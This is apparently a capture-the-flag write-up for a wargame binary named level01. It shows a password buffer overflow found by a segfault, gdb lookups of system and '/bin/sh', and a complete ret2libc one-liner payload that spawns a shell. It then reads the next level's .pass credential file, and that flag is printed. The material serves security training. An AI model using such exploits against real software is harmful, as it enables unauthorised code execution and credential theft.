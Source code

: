 # Write up

We easily find the right Username.

The password can segfault if overflow : 
```
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
fffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffffff
nope, incorrect password...

Segmentation fault (core dumped)
```

The stored password in .rodata is admin, however we still get the wrong password message.
```
$ ./level01
********* ADMIN LOGIN PROMPT *********
Enter Username: dat_wil
verifying username....

Enter Password:
admin
nope, incorrect password...

```
Obviously this message is hardcoded in anycase, it would be too easy if not. :)

NX is disabled here, so let's try a ret2libc
(We get a segfault for a 80 byte long password buffer)
```
(gdb) print &system
$1 = (<text variable, no debug info> *) 0xf7e6aed0 <system>
(gdb) find &system,+9999999,"/bin/sh"
0xf7f897ec
warning: Unable to access target memory at 0xf7fd3b74, halting search.
1 pattern found.

$ (python -c 'print "dat_wil"'; python -c 'print "b" * 80 + "\xd0\xae\xe6\xf7" + "LIDL" + "\xec\x97\xf8\xf7"'; cat) | ./level01
cat /home/users/level02/.pass
PwBLgNa8p8MTKW57S7zxVAQCxnCpV8JqTTs9XEBv
```
Which gives us our shell.


